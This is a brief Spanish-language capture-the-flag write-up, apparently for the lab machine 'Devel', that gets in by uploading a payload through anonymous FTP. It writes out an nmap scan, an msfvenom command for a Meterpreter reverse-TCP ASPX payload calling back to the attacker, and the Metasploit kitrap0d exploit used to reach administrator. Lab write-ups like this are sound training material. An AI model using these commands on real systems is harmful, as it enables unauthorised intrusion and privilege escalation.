






Realizo un escaneo de puertos
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN devel_scan 10.10.10.5
Está el protocolo FTP (21) y el protocolo HTTP (80)

En el protocolo FTP tiene permitido en acceso con el usuario anonymous

Veo que tenemos el comando PUT por lo que probablemente tengamos que subir una reverse shell Arbitrary File Upload Vulnerability
Para crear el reverse shell usaré msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your attacker tun0 IP4> LPORT=6969 -f aspx > payload.aspx
Obtengo la reverse shell

msfconsole tiene un módulo para sugerirnos exploits

Nos da una lista de posibles opciones

usaré este exploit
exploit/windows/local/ms10_015_kitrap0d
Ejecutamos la script y tenemos acceso como administrador
